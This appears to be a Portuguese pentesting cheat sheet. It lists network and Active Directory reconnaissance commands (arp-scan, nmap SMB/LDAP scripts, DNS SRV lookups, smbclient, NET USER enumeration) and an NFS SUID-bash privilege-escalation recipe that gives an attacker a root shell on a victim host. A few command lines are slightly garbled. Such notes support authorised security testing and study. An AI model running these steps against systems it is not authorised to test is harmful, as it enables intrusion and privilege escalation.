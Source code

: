 ip a
traceroute 8.8.8.8
iptables -nL
sudo arp-scan -local
Este comando usa o arp-scan para escanear a rede local em busca de dispositivos conectados.

netdiscover -r IP
Este comando usa o netdiscover para descobrir dispositivos na rede.

nmap -p 53,88,135,139,389,445,464,636,3268,3269 --script smb-os-discovery,smb-enum-shares,ldap-rootdse <alvo>
Este comando escaneia portas adicionais associadas a serviços de domínio e utiliza scripts para enumerar informações do sistema operacional e compartilhamentos SMB, além do LDAP.

nslookup <ip_do_controlador_de_dominio>
Após identificar um possível controlador de domínio, use este comando para realizar uma consulta DNS reversa e obter o nome completo do servidor.

nslookup -type=srv _ldap._tcp.dc._msdcs.<nome_do_dominio>
Este comando consulta os registros SRV do DNS para localizar os controladores de domínio do Active Directory. Substitua <nome_do_dominio> pelo nome do domínio identificado nas etapas anteriores.

Windows SMB
smbclient -L [IP]
smbclient \\ip\\sharename
nmap -p 445 -sV –script smb-enum-services [IP]

NFS
Atacante:
mkdir /tmp/pe
show mount -e IP
mount -t nfs <IP>:<pasta> /tmp/pe
cd /tmp/pe
cp /bin/bash
chmod +s bash

Vitima:
cd <pasta>
./bash -p

##NETUSER
Este comando lista todos os usuários do domínio e salva a saída em um arquivo chamado USERS.TXT para análise posterior.
NET USER /DOMAIN > USERS.TXT
Exibir informações de usuários específicos:
NET USER [username] /DOMAIN
Exibe todos os usuários locais da máquina atual.
NET USER
Obter informações de conexão e compartilhamento:
NET USE
Exibir informações de rede:
NET VIEW

##TTL
nmap -sn -PE -n --packet-trace -T4 <rede> | grep "ICMP \|TTL="
-sn: Realiza um ping scan (não escaneia portas, apenas verifica hosts ativos)
-PE: Usa ping ICMP Echo para descoberta de hosts
-n: Não realiza resolução DNS (torna o scan mais rápido)
--packet-trace: Mostra todos os pacotes enviados e recebidos
-T4 aumenta a velocidade do scan, mas pode ser menos precisa em redes congestionadas.
| grep "ICMP \|TTL=": Filtra a saída para mostrar apenas as linhas com ICMP e TTL
